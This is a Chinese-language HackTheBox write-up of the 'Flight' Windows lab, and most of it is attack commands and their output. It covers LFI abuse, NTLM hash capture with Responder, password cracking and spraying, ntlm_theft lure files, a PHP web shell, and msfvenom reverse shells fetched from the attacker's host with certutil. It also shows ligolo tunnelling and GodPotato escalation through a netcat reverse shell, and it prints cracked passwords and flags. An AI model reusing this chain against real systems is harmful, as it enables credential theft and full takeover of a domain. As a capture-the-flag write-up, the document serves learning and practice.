

###### tags: `Hack the box` `HTB` `Hard` `Windows`

# Flight
```
┌──(kali㉿kali)-[~/htb]
└─$ rustscan -a 10.129.228.120 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 10.129.228.120:53
Open 10.129.228.120:80
Open 10.129.228.120:88
Open 10.129.228.120:135
Open 10.129.228.120:139
Open 10.129.228.120:389
Open 10.129.228.120:445
Open 10.129.228.120:464
Open 10.129.228.120:593
Open 10.129.228.120:636
Open 10.129.228.120:3269
Open 10.129.228.120:3268
Open 10.129.228.120:5985
Open 10.129.228.120:9389
Open 10.129.228.120:49667
Open 10.129.228.120:49678
Open 10.129.228.120:49677
Open 10.129.228.120:49697
Open 10.129.228.120:55693


PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
80/tcp    open  http          syn-ack Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-title: g0 Aviation
| http-methods: 
|   Supported Methods: OPTIONS HEAD GET POST TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-06-06 08:28:50Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49677/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49678/tcp open  msrpc         syn-ack Microsoft Windows RPC
49697/tcp open  msrpc         syn-ack Microsoft Windows RPC
55693/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: G0; OS: Windows; CPE: cpe:/o:microsoft:windows
```

查看80port可以看到`flight.htb`先把domain加入
```
┌──(kali㉿kali)-[~/htb]
└─$ sudo nano /etc/hosts

10.129.228.120  flight.htb
```

看了很多東西什麼都沒有，掃看看subdomain，再把`school.flight.htb`放入`/etc/hosts`
```
┌──(kali㉿kali)-[~/htb]
└─$ ffuf -u http://10.129.228.120/ -w /home/kali/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.flight.htb" -fw 1546

school                  [Status: 200, Size: 3996, Words: 1045, Lines: 91, Duration: 302ms]

┌──(kali㉿kali)-[~/htb]
└─$ sudo nano /etc/hosts

10.129.228.120  school.flight.htb
```

隨便點一個tag可以導到`http://school.flight.htb/index.php?view=home.html`代參數`view`，用[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion/Intruders)確認LFI可行
```
┌──(kali㉿kali)-[~/htb]
└─$ ffuf -u http://school.flight.htb/index.php?view=FUZZ -w /home/kali/PayloadsAllTheThings/Intruders/Windows-files.txt -fs 1170,1102

C:/windows/system32/drivers/etc/hosts [Status: 200, Size: 1926, Words: 315, Lines: 52, Duration: 289ms]
C:/windows/system.ini   [Status: 200, Size: 1321, Words: 148, Lines: 44, Duration: 285ms]
C:/windows/windowsupdate.log [Status: 200, Size: 1378, Words: 173, Lines: 35, Duration: 284ms]
C:/windows/win.ini      [Status: 200, Size: 1194, Words: 149, Lines: 38, Duration: 284ms]
C:/xampp/phpmyadmin/config.inc.php [Status: 200, Size: 3153, Words: 274, Lines: 92, Duration: 301ms]
C:/xampp/sendmail/sendmail.ini [Status: 200, Size: 3198, Words: 431, Lines: 103, Duration: 301ms]
C:/xampp/tomcat/conf/tomcat-users.xml [Status: 200, Size: 3914, Words: 591, Lines: 87, Duration: 292ms]
C:/xampp/webdav/webdav.txt [Status: 200, Size: 1379, Words: 167, Lines: 39, Duration: 293ms]
C:/windows/system32/license.rtf [Status: 200, Size: 62635, Words: 7856, Lines: 365, Duration: 292ms]
C:/xampp/php/php.ini    [Status: 200, Size: 75093, Words: 9638, Lines: 2026, Duration: 297ms]
C:/windows/notepad.exe  [Status: 200, Size: 255566, Words: 1590, Lines: 713, Duration: 292ms]
C:/windows/panther/setupinfo [Status: 200, Size: 249166, Words: 8732, Lines: 465, Duration: 294ms]
C:/windows/system32/inetsrv/config/schema/aspnet_schema.xml [Status: 200, Size: 45670, Words: 8921, Lines: 700, Duration: 290ms]
C:/xampp/apache/logs/access.log [Status: 200, Size: 827397, Words: 102462, Lines: 6798, Duration: 289ms]
C:/xampp/apache/conf/httpd.conf [Status: 200, Size: 22337, Words: 2849, Lines: 597, Duration: 287ms]
C:/xampp/tomcat/conf/web.xml [Status: 200, Size: 177712, Words: 42818, Lines: 4762, Duration: 292ms]
C:/windows/explorer.exe [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 300ms]
C:/xampp/apache/logs/error.log [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 293ms]
:: Progress: [212/212] :: Job [1/1] :: 17 req/sec :: Duration: [0:00:11] :: Errors: 0 :
```

可以看到靶機又有smb可以嘗試[NTLM hash grabing using Responder](https://systemweakness.com/htb-lessons-learned-ntlm-hash-grabing-using-responder-39dcd4a64406)
```
┌──(kali㉿kali)-[~/htb]
└─$ sudo responder -I tun0

輸入http://school.flight.htb/index.php?view=//10.10.14.34/somefiles

[SMB] NTLMv2-SSP Client   : 10.129.228.120
[SMB] NTLMv2-SSP Username : flight\svc_apache
[SMB] NTLMv2-SSP Hash     : svc_apache::flight:15cb1df6a94e1a2b:1ED75F8D51F79CD0EA5A052B015DF936:010100000000000000FC701396B7DA01AEEDC9E94908D7740000000002000800470039003300330001001E00570049004E002D004A00490041004700480034003200530059003700530004003400570049004E002D004A0049004100470048003400320053005900370053002E0047003900330033002E004C004F00430041004C000300140047003900330033002E004C004F00430041004C000500140047003900330033002E004C004F00430041004C000700080000FC701396B7DA0106000400020000000800300030000000000000000000000000300000429488653EF63E58485CC78F281185131955B9E5826658463A258E1CC31B6F420A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00330034000000000000000000 
```

得到`svc_apache`的ntlm，用john破
```
┌──(kali㉿kali)-[~/htb]
└─$ john svc_apache.ntlm --wordlist=/home/kali/rockyou.txt

S@Ss!K@*t13      (svc_apache)
```

再用`bloodhound-python`看看
```
┌──(kali㉿kali)-[~/htb]
└─$ bloodhound-python -c All -u "svc_apache" -p "S@Ss\!K@*t13" -d flight.htb -ns 10.129.228.120 --zip

INFO: Compressing output into 20240605223423_bloodhound.zip
```

塞進去`bloodhound`
```
┌──(kali㉿kali)-[~/htb]
└─$ sudo neo4j start

┌──(kali㉿kali)-[~/htb]
└─$ bloodhound
```

在`Raw Query`裡面輸入找到全部user
```
MATCH (m:User) RETURN m
```



或是另一種方法用`impacket-lookupsid`
```
┌──(kali㉿kali)-[~/htb]
└─$ impacket-lookupsid svc_apache:'S@Ss!K@*t13'@'flight.htb'

498: flight\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: flight\Administrator (SidTypeUser)
501: flight\Guest (SidTypeUser)
502: flight\krbtgt (SidTypeUser)
512: flight\Domain Admins (SidTypeGroup)
513: flight\Domain Users (SidTypeGroup)
514: flight\Domain Guests (SidTypeGroup)
515: flight\Domain Computers (SidTypeGroup)
516: flight\Domain Controllers (SidTypeGroup)
517: flight\Cert Publishers (SidTypeAlias)
518: flight\Schema Admins (SidTypeGroup)
519: flight\Enterprise Admins (SidTypeGroup)
520: flight\Group Policy Creator Owners (SidTypeGroup)
521: flight\Read-only Domain Controllers (SidTypeGroup)
522: flight\Cloneable Domain Controllers (SidTypeGroup)
525: flight\Protected Users (SidTypeGroup)
526: flight\Key Admins (SidTypeGroup)
527: flight\Enterprise Key Admins (SidTypeGroup)
553: flight\RAS and IAS Servers (SidTypeAlias)
571: flight\Allowed RODC Password Replication Group (SidTypeAlias)
572: flight\Denied RODC Password Replication Group (SidTypeAlias)
1000: flight\Access-Denied Assistance Users (SidTypeAlias)
1001: flight\G0$ (SidTypeUser)
1102: flight\DnsAdmins (SidTypeAlias)
1103: flight\DnsUpdateProxy (SidTypeGroup)
1602: flight\S.Moon (SidTypeUser)
1603: flight\R.Cold (SidTypeUser)
1604: flight\G.Lors (SidTypeUser)
1605: flight\L.Kein (SidTypeUser)
1606: flight\M.Gold (SidTypeUser)
1607: flight\C.Bum (SidTypeUser)
1608: flight\W.Walker (SidTypeUser)
1609: flight\I.Francis (SidTypeUser)
1610: flight\D.Truff (SidTypeUser)
1611: flight\V.Stevens (SidTypeUser)
1612: flight\svc_apache (SidTypeUser)
1613: flight\O.Possum (SidTypeUser)
1614: flight\WebDevs (SidTypeGroup)
```

製作users.txt
```
┌──(kali㉿kali)-[~/htb]
└─$ cat users.txt                                   
l.francis
d.truff
m.gold
k.kein
w.walker
r.cold
v.stevens
c.bum
o.possum
g.lors
s.moon
administrator
```

用cme噴灑看看可以噴灑到s.moon的密碼也是`S@Ss!K@*t13` 
```
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec smb 10.129.228.120 -u users.txt -p "S@Ss\!K@*t13" --continue-on-success

SMB         10.129.228.120  445    G0               [+] flight.htb\s.moon:S@Ss!K@*t13 
```

用cme查看確認`shared`有`write`權限
```
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec smb 10.129.228.120 -u "s.moon" -p "S@Ss\!K@*t13" --shares              
SMB         10.129.228.120  445    G0               [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.129.228.120  445    G0               [+] flight.htb\s.moon:S@Ss!K@*t13 
SMB         10.129.228.120  445    G0               [+] Enumerated shares
SMB         10.129.228.120  445    G0               Share           Permissions     Remark
SMB         10.129.228.120  445    G0               -----           -----------     ------
SMB         10.129.228.120  445    G0               ADMIN$                          Remote Admin
SMB         10.129.228.120  445    G0               C$                              Default share
SMB         10.129.228.120  445    G0               IPC$            READ            Remote IPC
SMB         10.129.228.120  445    G0               NETLOGON        READ            Logon server share 
SMB         10.129.228.120  445    G0               Shared          READ,WRITE      
SMB         10.129.228.120  445    G0               SYSVOL          READ            Logon server share 
SMB         10.129.228.120  445    G0               Users           READ            
SMB         10.129.228.120  445    G0               Web             READ 
```

利用[ntlm_theft](https://github.com/Greenwolf/ntlm_theft)製作所有檔案，一樣responder開啟之後用`smbclient`登入之後放入檔案
```
┌──(kali㉿kali)-[~/htb]
└─$ sudo responder -I tun0 

┌──(kali㉿kali)-[~/htb/ntlm_theft]
└─$ python3 ntlm_theft.py -g all -s 10.10.14.34 -f test

┌──(kali㉿kali)-[~/htb/ntlm_theft/test]
└─$ smbclient //10.129.228.120/Shared -U s.moon%"S@Ss\!K@*t13"
Try "help" to get a list of possible commands.
smb: \> prompt false
smb: \> mput *
NT_STATUS_ACCESS_DENIED opening remote file \test-(frameset).docx
putting file desktop.ini as \desktop.ini (0.1 kb/s) (average 0.1 kb/s)
NT_STATUS_ACCESS_DENIED opening remote file \test.m3u
NT_STATUS_ACCESS_DENIED opening remote file \test.lnk
NT_STATUS_ACCESS_DENIED opening remote file \zoom-attack-instructions.txt
NT_STATUS_ACCESS_DENIED opening remote file \test.htm
NT_STATUS_ACCESS_DENIED opening remote file \test-(includepicture).docx
NT_STATUS_ACCESS_DENIED opening remote file \test-(url).url
NT_STATUS_ACCESS_DENIED opening remote file \test.scf
putting file test-(fulldocx).xml as \test-(fulldocx).xml (38.6 kb/s) (average 26.0 kb/s)
NT_STATUS_ACCESS_DENIED opening remote file \test.pdf
NT_STATUS_ACCESS_DENIED opening remote file \test.asx
putting file test.application as \test.application (1.8 kb/s) (average 20.1 kb/s)
NT_STATUS_ACCESS_DENIED opening remote file \test-(externalcell).xlsx
NT_STATUS_ACCESS_DENIED opening remote file \test.wax
NT_STATUS_ACCESS_DENIED opening remote file \test-(icon).url
putting file test-(stylesheet).xml as \test-(stylesheet).xml (0.2 kb/s) (average 16.2 kb/s)
NT_STATUS_ACCESS_DENIED opening remote file \test.rtf
NT_STATUS_ACCESS_DENIED opening remote file \Autorun.inf
putting file test.jnlp as \test.jnlp (0.0 kb/s) (average 8.8 kb/s)
NT_STATUS_ACCESS_DENIED opening remote file \test-(remotetemplate).docx
smb: \> dir
  .                                   D        0  Thu Jun  6 06:06:21 2024
  ..                                  D        0  Thu Jun  6 06:06:21 2024
  desktop.ini                         A       47  Thu Jun  6 06:06:13 2024
  test-(fulldocx).xml                 A    72585  Thu Jun  6 06:06:17 2024
  test-(stylesheet).xml               A      163  Thu Jun  6 06:06:20 2024
  test.application                    A     1650  Thu Jun  6 06:06:18 2024
  test.jnlp                           A      192  Thu Jun  6 06:06:23 2024

                5056511 blocks of size 4096. 1252604 blocks available
```

等他反彈`c.bum`的ntlm了，用john破
```
[SMB] NTLMv2-SSP Client   : 10.129.228.120
[SMB] NTLMv2-SSP Username : flight.htb\c.bum
[SMB] NTLMv2-SSP Hash     : c.bum::flight.htb:e7fca126d55722a4:EB3BB79D7F72DC0914FF7BDB055C2C29:0101000000000000009F331B9CB7DA0124A38704641E73B80000000002000800450048005300360001001E00570049004E002D0045004A0034005700550036005A005A0057003400520004003400570049004E002D0045004A0034005700550036005A005A005700340052002E0045004800530036002E004C004F00430041004C000300140045004800530036002E004C004F00430041004C000500140045004800530036002E004C004F00430041004C0007000800009F331B9CB7DA0106000400020000000800300030000000000000000000000000300000429488653EF63E58485CC78F281185131955B9E5826658463A258E1CC31B6F420A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00330034000000000000000000 

┌──(kali㉿kali)-[~/htb]
└─$ john c.bum.ntlm --wordlist=/home/kali/rockyou.txt

Tikkycoll_431012284 (c.bum)
```

再用CME掃
```
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec smb 10.129.228.120 -u users.txt -p "Tikkycoll_431012284" --shares

SMB         10.129.228.120  445    G0               [+] flight.htb\c.bum:Tikkycoll_431012284 
SMB         10.129.228.120  445    G0               [+] Enumerated shares
SMB         10.129.228.120  445    G0               Share           Permissions     Remark
SMB         10.129.228.120  445    G0               -----           -----------     ------
SMB         10.129.228.120  445    G0               ADMIN$                          Remote Admin
SMB         10.129.228.120  445    G0               C$                              Default share
SMB         10.129.228.120  445    G0               IPC$            READ            Remote IPC
SMB         10.129.228.120  445    G0               NETLOGON        READ            Logon server share 
SMB         10.129.228.120  445    G0               Shared          READ,WRITE      
SMB         10.129.228.120  445    G0               SYSVOL          READ            Logon server share 
SMB         10.129.228.120  445    G0               Users           READ            
SMB         10.129.228.120  445    G0               Web             READ,WRITE
```

`smbclient`登入`c.bum`的帳號並用`Web`上傳s.php
```
┌──(kali㉿kali)-[~/htb]
└─$ smbclient //10.129.228.120/Web -U c.bum%Tikkycoll_431012284

smb: \flight.htb\> put s.php
putting file s.php as \flight.htb\s.php (0.0 kb/s) (average 2.1 kb/s)
smb: \flight.htb\> dir
  .                                   D        0  Thu Jun  6 06:22:30 2024
  ..                                  D        0  Thu Jun  6 06:22:30 2024
  css                                 D        0  Thu Jun  6 06:22:01 2024
  images                              D        0  Thu Jun  6 06:22:01 2024
  index.html                          A     7069  Thu Feb 24 00:58:10 2022
  js                                  D        0  Thu Jun  6 06:22:01 2024
  s.php                               A       31  Thu Jun  6 06:22:30 2024

```

用whoami看看能不能成功發現可以，用reverseshell試試
```
http://flight.htb/s.php?cmd=whoami

flight\svc_apache

┌──(kali㉿kali)-[~/htb]
└─$ rlwrap -cAr nc -nvlp443

┌──(kali㉿kali)-[~/htb]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.34 LPORT=443 -f exe -o met.exe

http://flight.htb/s.php?cmd=certutil.exe -urlcache -split -f http://10.10.14.34/met.exe met.exe

http://flight.htb/s.php?cmd=met.exe
```

等反彈之後取得`svc_apache`，之後可以用`runas`切成`c.bum`
```
┌──(kali㉿kali)-[~/htb]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.34 LPORT=8888 -f exe -o met_8888.exe

C:\Users\Public\Documents>certutil.exe -urlcache -split -f http://10.10.14.34/Invoke-RunasCs.ps1 Invoke-RunasCs.ps1

C:\Users\Public\Documents>powershell -ep bypass

PS C:\Users\Public\Documents> certutil.exe -urlcache -split -f http://10.10.14.34/met_8888.exe met_8888.exe

PS C:\Users\Public\Documents> . .\Invoke-RunasCs.ps1

PS C:\Users\Public\Documents> dir

    Directory: C:\Users\Public\Documents


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----         6/6/2024   3:44 AM          88284 Invoke-RunasCs.ps1                                                    
-a----         6/6/2024   3:46 AM          73802 met_8888.exe

┌──(kali㉿kali)-[~/htb]
└─$ rlwrap -cAr nc -nvlp8888

PS C:\Users\Public\Documents> Invoke-RunasCs -Username c.bum -Password Tikkycoll_431012284 -Command "C:\Users\Public\Documents\met_8888.exe"
```

等反彈可拿到c.bum的權限，在`C:\Users\C.Bum\Desktop`可得user.txt
```
C:\Windows\system32>whoami
whoami
flight\c.bum

C:\Users\C.Bum\Desktop>type user.txt
7e1b182b1d24c0b22ad87ba19a3dfd25
```

用`winpeas`
```
C:\Users\C.Bum\Desktop>certutil.exe -urlcache -f http://10.10.14.34/winPEASx64.exe winPEAS.exe

C:\Users\C.Bum\Desktop>winPEAS.exe

...
Enumerating IPv6 connections
                                                                                                                                  
  Protocol   Local Address                               Local Port    Remote Address                              Remote Port     State             Process ID      Process Name

  TCP        [::]                                        80            [::]                                        0               Listening         5352            httpd
  TCP        [::]                                        88            [::]                                        0               Listening         656             lsass
  TCP        [::]                                        135           [::]                                        0               Listening         912             svchost
  TCP        [::]                                        389           [::]                                        0               Listening         656             lsass
  TCP        [::]                                        443           [::]                                        0               Listening         5352            httpd
  TCP        [::]                                        445           [::]                                        0               Listening         4               System
  TCP        [::]                                        464           [::]                                        0               Listening         656             lsass
  TCP        [::]                                        593           [::]                                        0               Listening         912             svchost
  TCP        [::]                                        636           [::]                                        0               Listening         656             lsass
  TCP        [::]                                        3268          [::]                                        0               Listening         656             lsass
  TCP        [::]                                        3269          [::]                                        0               Listening         656             lsass
  TCP        [::]                                        5985          [::]                                        0               Listening         4               System
  TCP        [::]                                        8000          [::]                                        0               Listening         4               System
  TCP        [::]                                        9389          [::]                                        0               Listening         2464            Microsoft.ActiveDirectory.WebServices
  TCP        [::]                                        47001         [::]                                        0               Listening         4               System
  TCP        [::]                                        49664         [::]                                        0               Listening         492             wininit
  TCP        [::]                                        49665         [::]                                        0               Listening         1168            svchost
  TCP        [::]                                        49666         [::]                                        0               Listening         1628            svchost
  TCP        [::]                                        49667         [::]                                        0               Listening         656             lsass
  TCP        [::]                                        49677         [::]                                        0               Listening         656             lsass
  TCP        [::]                                        49678         [::]                                        0               Listening         656             lsass
  TCP        [::]                                        49690         [::]                                        0               Listening         632             services
  TCP        [::]                                        49697         [::]                                        0               Listening         3088            dns
  TCP        [::]                                        55693         [::]                                        0               Listening         1508            dfsrs
  TCP        [::1]                                       53            [::]                                        0               Listening         3088            dns
  TCP        [::1]                                       389           [::1]                                       49680           Established       656             lsass
  TCP        [::1]                                       389           [::1]                                       49681           Established       656             lsass
  TCP        [::1]                                       389           [::1]                                       49695           Established       656             lsass
  TCP        [::1]                                       389           [::1]                                       49696           Established       656             lsass
  TCP        [::1]                                       49680         [::1]                                       389             Established       3116            ismserv
  TCP        [::1]                                       49681         [::1]                                       389             Established       3116            ismserv
  TCP        [::1]                                       49695         [::1]                                       389             Established       3088            dns
  TCP        [::1]                                       49696         [::1]                                       389             Established       3088            dns
  TCP        [dead:beef::1db2:18d4:e5dc:dceb]            53            [::]                                        0               Listening         3088            dns
  TCP        [fe80::1db2:18d4:e5dc:dceb%6]               53            [::]                                        0               Listening         3088            dns
  TCP        [fe80::1db2:18d4:e5dc:dceb%6]               389           [fe80::1db2:18d4:e5dc:dceb%6]               55688           Established       656             lsass
  TCP        [fe80::1db2:18d4:e5dc:dceb%6]               389           [fe80::1db2:18d4:e5dc:dceb%6]               55691           Established       656             lsass
  TCP        [fe80::1db2:18d4:e5dc:dceb%6]               49667         [fe80::1db2:18d4:e5dc:dceb%6]               55699           Established       656             lsass
  TCP        [fe80::1db2:18d4:e5dc:dceb%6]               49667         [fe80::1db2:18d4:e5dc:dceb%6]               55724           Established       656             lsass
  TCP        [fe80::1db2:18d4:e5dc:dceb%6]               55688         [fe80::1db2:18d4:e5dc:dceb%6]               389             Established       1508            dfsrs
  TCP        [fe80::1db2:18d4:e5dc:dceb%6]               55691         [fe80::1db2:18d4:e5dc:dceb%6]               389             Established       1508            dfsrs
  TCP        [fe80::1db2:18d4:e5dc:dceb%6]               55699         [fe80::1db2:18d4:e5dc:dceb%6]               49667           Established       1508            dfsrs
  TCP        [fe80::1db2:18d4:e5dc:dceb%6]               55724         [fe80::1db2:18d4:e5dc:dceb%6]               49667           Established       656             lsass
```

看到有8000port，可以用`ligolo`去看看
```
C:\Users\C.Bum\Desktop>powershell -ep bypass

PS C:\Users\C.Bum\Desktop> certutil.exe -urlcache -f http://10.10.14.34/agent_w.exe agent.exe

PS C:\Users\C.Bum\Desktop> ./agent -connect 10.10.14.34:11601 -ignore-cert

┌──(kali㉿kali)-[~/ligolo-ng]
└─$ sudo ip tuntap add user kali mode tun ligolo

┌──(kali㉿kali)-[~/ligolo-ng]
└─$ sudo ip link set ligolo up

┌──(kali㉿kali)-[~/ligolo-ng]
└─$ ./proxy -selfcert

ligolo-ng » session
? Specify a session : 1 - #1 - flight\C.Bum@g0 - 10.129.228.120:53395
[Agent : flight\C.Bum@g0] » start
[Agent : flight\C.Bum@g0] » INFO[0144] Starting tunnel to flight\C.Bum@g0           
[Agent : flight\C.Bum@g0] » 
[Agent : flight\C.Bum@g0] » ifconfig
┌──────────────────────────────────────────────────┐
│ Interface 0                                      │
├──────────────┬───────────────────────────────────┤
│ Name         │ Ethernet0 2                       │
│ Hardware MAC │ 00:50:56:b0:f1:9b                 │
│ MTU          │ 1500                              │
│ Flags        │ up|broadcast|multicast|running    │
│ IPv6 Address │ dead:beef::1db2:18d4:e5dc:dceb/64 │
│ IPv6 Address │ fe80::1db2:18d4:e5dc:dceb/64      │
│ IPv4 Address │ 10.129.228.120/16                 │
└──────────────┴───────────────────────────────────┘
┌──────────────────────────────────────────────┐
│ Interface 1                                  │
├──────────────┬───────────────────────────────┤
│ Name         │ Loopback Pseudo-Interface 1   │
│ Hardware MAC │                               │
│ MTU          │ -1                            │
│ Flags        │ up|loopback|multicast|running │
│ IPv6 Address │ ::1/128                       │
│ IPv4 Address │ 127.0.0.1/8                   │
└──────────────┴───────────────────────────────┘

┌──(kali㉿kali)-[~/htb]
└─$ sudo ip route add 240.0.0.1/32 dev ligolo
```

可以前往`http://240.0.0.1:8000/`可以看到有一個網站，並且確認有`http://240.0.0.1:8000/contact.html`，我們可以找到`C:\inetpub\development`裡面有`contact.html`，可以試試上傳`shell.aspx`來反彈
```
C:\inetpub\development>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 1DF4-493D

 Directory of C:\inetpub\development

06/06/2024  06:42 AM    <DIR>          .
06/06/2024  06:42 AM    <DIR>          ..
04/16/2018  02:23 PM             9,371 contact.html
06/06/2024  06:42 AM    <DIR>          css
06/06/2024  06:42 AM    <DIR>          fonts
06/06/2024  06:42 AM    <DIR>          img
04/16/2018  02:23 PM            45,949 index.html
06/06/2024  06:42 AM    <DIR>          js
               2 File(s)         55,320 bytes
               6 Dir(s)   5,024,202,752 bytes free

C:\inetpub\development>certutil.exe -urlcache -f http://10.10.14.34/shell.aspx shell.aspx

前往240.0.0.1:8000/shell.aspx

┌──(kali㉿kali)-[~/htb]
└─$ rlwrap -cAr nc -nvlp9001    
```

等到反彈查看`whoami /priv`有`SeImpersonatePrivilege`
```
c:\windows\system32\inetsrv>whoami
iis apppool\defaultapppool

c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

用[godpotato](https://github.com/BeichenDream/GodPotato/releases/tag/V1.20)
```
┌──(kali㉿kali)-[~/htb]
└─$ rlwrap -cAr nc -nvlp9002

C:\Users\Public\Documents>certutil.exe -urlcache -f http://10.10.14.34/GodPotato-NET4.exe GodPotato.exe

C:\Users\Public\Documents>certutil.exe -urlcache -f http://10.10.14.34/nc.exe nc.exe

C:\Users\Public\Documents>GodPotato.exe -cmd "nc -t -e C:\Windows\System32\cmd.exe 10.10.14.34 9002"
```

等反彈可拿到`Administrator`，可在`C:\Users\Administrator\Desktop`得root.txt
```
C:\Users\Public\Documents>whoami
nt authority\system

C:\Users\Administrator\Desktop>type root.txt
6bf0b9b0762be88bd9266b09d5e0218c
```

---